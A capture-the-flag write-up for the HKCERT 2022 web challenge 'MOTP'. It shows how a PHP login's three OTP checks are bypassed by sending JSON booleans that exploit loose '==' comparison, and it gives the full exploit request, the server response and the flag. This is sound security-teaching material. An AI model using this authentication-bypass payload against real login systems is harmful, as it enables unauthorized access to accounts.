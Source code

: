 # MOTP **(火炭 OTP)**

> Tag: web, 150 points
> Web: <http://chal.hkcert22.pwnable.hk:28305/>
> Attachment: [motp_1ea0c63eb5566bc147f61f1cdf594984.zip](https://file.hkcert22.pwnable.hk/motp_1ea0c63eb5566bc147f61f1cdf594984.zip)

## Challenge Description

The [challenge website](http://chal.hkcert22.pwnable.hk:28305) contains a form
which asks for the username, password and three one-time passwords (OTP).
Clicking "Sign In" sends a POST request to `/login.php`, which then responds with
which field is incorrect.

![The result of a form submission.](./description.png)

The goal is to enter the correct username and password, and bypass the OTP checks.

## Code Analysis

From the source code of `login.php`, we can see that:
1. the form data is loaded into `$_DATA` by `jsonhandler.php`,
1. the username and password are checked against `$USER_DB`,
1. the OTPs are verified with randomly generated keys using `Google2FA`, and
1. the flag is revealed if all checks pass.

It is obvious that the username and password are `admin`.

`Google2FA` implements the time-based OTP algorithm,
possibly capatible with Google's Autheticator app.

## Failed Attempt

Since the interval between key regeneration is 30 seconds and the OTP length is 6,
we thought it might be possible to brute-force all three OTP under the time constraint.

However, although the three OTP can be sequentially brute-forced, this was proven to be
difficult as 30 seconds is not enough to pull this off.

## Finding the Bug
### JSON Input

We then noticed that the form data `$_DATA` comes from `json_decode`,
and that there are no validation on the input JSON.

```php
$_DATA = json_decode(file_get_contents('php://input'), true);
```

Since PHP is a loosely typed language, we can send data with a type other than string.
We can therefore control the type of fields in `$_DATA`.

### Loosely Typed Equality

We further found that OTP is compared using a `==` operator:

```php
public static function verify_key($b32seed, $key, $window = 4, $useTimeStamp = true) {
    // ...
    for ($ts = $timeStamp - $window; $ts <= $timeStamp + $window; $ts++)
        if (self::oath_hotp($binarySeed, $ts) == $key)
            return true;

    return false;
}
```

which is, [indeed](https://www.php.net/manual/en/language.operators.comparison.php),
an "equal" operator similar to JavaScript.
Instead of the identical (`===`) operator, which returns `false` if the operand types differ,
the equal (`==`) operator first performs some type juggling.

In particular, if one of the operand is of `bool` type, `==` will convert the other to
`bool` type as well before comparison.
So if we set `$key` to `true`, `self::oath_hotp($binarySeed, $ts) == $key` will evaluate to
`true` as the left operand is always [truthy](https://www.php.net/manual/en/language.types.boolean.php#language.types.boolean.casting).

## Solution

We therefore set the three OTP to be `true` and send the following HTTP request:

```http
POST /login.php HTTP/1.1
Host: chal.hkcert22.pwnable.hk:28305
Content-Length: 109

{
    "username":"admin",
    "password":"admin",
    "otp1":true,
    "otp2":true,
    "otp3":true
}
```

The response lastly contains the flag:

```http
HTTP/1.1 200 OK
Date: Mon, 14 Nov 2022 10:34:10 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/8.1.12
Content-Length: 86
Content-Type: application/json

{"message":"Congrats, here is your flag: hkcert22{mistakes-off-the-page}","data":null}
```

## Flag
```
hkcert22{mistakes-off-the-page}
```
